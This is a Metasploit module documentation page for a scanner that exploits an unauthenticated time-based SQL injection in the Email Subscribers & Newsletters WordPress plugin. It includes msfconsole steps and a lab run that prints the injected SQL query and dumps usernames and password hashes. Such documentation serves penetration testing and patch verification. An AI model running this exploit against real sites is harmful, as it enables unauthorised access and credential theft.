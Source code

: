 ## Vulnerable Application

Email Subscribers & Newsletters plugin contains an unauthenticated timebased SQL injection in
versions before 4.3.1.  The vulnerable parameter is in the `hash` parameter.

All versions can be downloaded from [wordress.org](https://wordpress.org/plugins/email-subscribers/advanced/)
or [4.2.2](https://downloads.wordpress.org/plugin/email-subscribers.4.2.2.zip)

After install, simply activate the plug-in.  You may get a "80% done!" page, simply ignore it.

## Verification Steps

1. Install the plugin on wordpress.
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_email_sub_news_sqli`
1. Do: `set rhosts [ip]`
1. Do: `set action [action]`
1. Do: `run`

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with Email Subscribers & Newsletters 4.2.2 on Ubuntu 20.04 using MariaDB 10.3.22

#### List Users

```
msf6 > use auxiliary/scanner/http/wp_email_sub_news_sqli 
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set count 3
count => 3
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > run

[*] Checking /wp-content/plugins/email-subscribers/readme.txt
[*] Found version 4.2.2 in the plugin
[+] Vulnerable version detected
[*] {SQLi} Executing (select group_concat(yKaoA) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) yKaoA from wp_users limit 3) adO)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
